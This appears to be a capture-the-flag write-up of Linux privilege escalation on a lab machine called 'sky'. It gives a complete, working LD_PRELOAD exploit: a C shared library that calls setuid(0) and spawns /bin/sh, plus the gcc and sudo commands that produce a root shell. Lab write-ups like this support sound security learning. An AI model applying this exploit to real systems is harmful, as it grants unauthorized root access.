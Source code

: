 
I had the password for the user, so the first command I ran was `sudo -l` to check for the commands or files that the user 'webdeveloper' can run with root privileges.

```
webdeveloper@sky:/$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```

I ran the file with sudo and without sudo, but nothing worked. I tried to look for binary with the SUID bit, but nothing much. Then I looked at the writeup, and there I learned that I have to use
the 'LD_PRELOAD'. to gain the root access.

I read about LD_PRELOAD. It is an environment variable that can tell a program to load the mentioned library before the program is executed. The 'sky_backup_utility' is an executable.
`env_keep+=LD_PRELOAD` means we can import a library into the executable. As we can run this ELF with sudo permissions without a password (but we have the password for this user, so no worries),
we can import a library that will return a root shell.

```
webdeveloper@sky:/$ vim /usr/bin/sky_backup_utility
webdeveloper@sky:/$ cd /tmp
webdeveloper@sky:/tmp$ vim shell.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

All these things should be done in the /tmp folder as, in most cases, there is no restriction on creating or writing to a file.

Then, compiling and running the file:

```
webdeveloper@sky:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:7:2: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    7 |  setgid(0);
      |  ^~~~~~
shell.c:8:2: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    8 |  setuid(0);
      |  ^~~~~~
webdeveloper@sky:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
root@sky:/tmp# 
```

The shared library should have the `.so` extension. Eventually, we get the root shell through a new privilege escalation technique.
